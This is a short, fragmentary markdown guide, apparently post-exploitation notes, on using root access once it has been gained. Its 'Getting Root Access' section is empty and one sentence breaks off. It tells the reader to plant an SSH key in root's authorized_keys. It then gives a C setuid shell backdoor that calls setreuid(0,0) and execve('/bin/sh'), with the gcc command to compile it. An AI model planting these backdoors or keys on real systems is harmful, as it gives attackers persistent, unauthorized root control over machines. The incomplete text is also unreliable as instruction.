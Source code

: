 # Guide


## Getting Root Access


## Using Root Access

How to use the root access to 

### SSH Keys

Create SSH keys for the Root account then just connect.
Input ssh key into .ssh, `.ssh/authorized_keys`

### File Creation to Open a Shell

Create a file using the root privilege, or enable its privileges:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/sh", NULL, NULL); 
}
```

Compile the file:

```
gcc -o shell /opt/shells/setuid/exec.c
```
